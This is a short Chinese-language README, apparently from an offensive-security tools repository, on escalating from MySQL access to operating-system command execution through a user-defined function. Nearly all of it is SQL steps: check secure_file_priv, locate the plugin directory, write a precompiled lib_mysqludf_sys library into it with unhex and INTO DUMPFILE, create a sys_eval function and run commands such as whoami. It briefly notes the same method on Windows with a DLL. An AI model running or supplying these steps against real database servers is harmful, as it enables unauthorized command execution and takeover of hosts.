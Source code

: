# MySQL UDF 提权

> 尝试UDF提权之前，先确保MySQL有读写文件的权限

```SQL
SHOW VARIABLES LIKE 'sec%';
# or
SHOW VARIABLES LIKE 'secure_file_priv';
```
如果查询到 secure_file_priv 的值为NULL，则不可以读写文件

### Linux

> https://github.com/mysqludf/lib_mysqludf_sys

udf.so.txt 是自己的编译的

udf2.so.txt 来自网友编译

> 使用方法

首先通过SQL语句查询到MySQL的plugin位置，如：/usr/lib64/mysql/plugin/

```SQL
SHOW VARIABLES LIKE '%plugin%';
#或者
SELECT @@plugin_dir;
```

然后写UDF到插件目录、创建函数、执行命令

```SQL

SELECT unhex(' [udf.so.txt]|[udf2.so.txt] ') INTO DUMPFILE "/usr/lib64/mysql/plugin/udf.so"; #写入udf.so

DROP FUNCTION sys_eval; # 如果存在函数先drop掉

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so'; # 创建函数

SELECT sys_eval ('whoami'); # 执行命令

```


### Windows

方法与上面类似，可以使用tools的UDF提权脚本，或者上传dll文件，命令执行函数名为 shell

